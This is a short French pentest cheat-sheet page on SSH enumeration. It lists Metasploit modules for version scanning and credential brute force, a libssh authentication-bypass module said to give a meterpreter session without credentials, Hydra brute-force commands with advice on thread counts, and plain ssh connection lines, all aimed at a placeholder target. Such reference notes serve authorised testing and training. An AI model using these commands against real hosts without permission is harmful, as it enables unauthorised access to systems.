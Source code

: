 # 🔐 Énumération SSH

[← Retour à la table des matières](../README.md)

## Port par défaut : 22

## Metasploit Modules

### Énumération et Bruteforce
```bash
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login
    set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
    set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
    set STOP_ON_SUCCESS true
    set VERBOSE true
```

### Exploit LibSSH - Bypass d'authentification
```bash
# Exploit pour obtenir directement un meterpreter via libssh
use auxiliary/scanner/ssh/libssh_auth_bypass
set RHOSTS targetIP
set SPAWN_PTY true
exploit
# Résultat : Session meterpreter directe sans credentials
```

## Hydra Bruteforce → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

### Précautions pour le Bruteforce Linux
```bash
# ⚠️ IMPORTANT : Réduire les threads pour éviter de crasher le service SSH
hydra -L users.txt -P passwords.txt -t 3 targetIP ssh
# Option -t 3 ou -t 4 recommandée pour la stabilité du service
```

## Connexion manuelle
```bash
ssh user@targetIP
ssh -p 2222 user@targetIP  # Port non-standard
```